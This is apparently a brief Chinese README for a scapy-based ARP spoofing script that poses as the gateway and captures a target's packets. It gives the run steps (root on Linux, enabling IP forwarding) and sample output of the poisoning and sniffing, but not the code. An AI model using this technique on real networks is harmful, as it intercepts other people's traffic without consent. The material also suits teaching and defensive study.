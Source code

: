 
伪装为网关，抓包保存。 功能：伪装为网关，抓包保存。 使用scapy库

此代码是定向欺骗，广播欺骗可以自己修改代码。

必须在Linux下以root身份运行。

运行代码前记得设置IP转发功能：sysctl net.ipv4.ip_forward=1


例：
sudo python arper.py
WARNING: No route found for IPv6 destination :: (no default route?)
[*] Setting up eno1
30:0e:d5:c7:33:b7
[*]Gateway 10.63.63.250 is at 30:0e:d5:c7:33:b7
[*]Target_ip 10.63.1.45 is at 00:e0:b4:16:18:a3
[*] Beginning the arp poison.[CTRL -C to stop.]
[*]Starting sniffer for 1000 packets
[*] Restoring target ...
已杀死
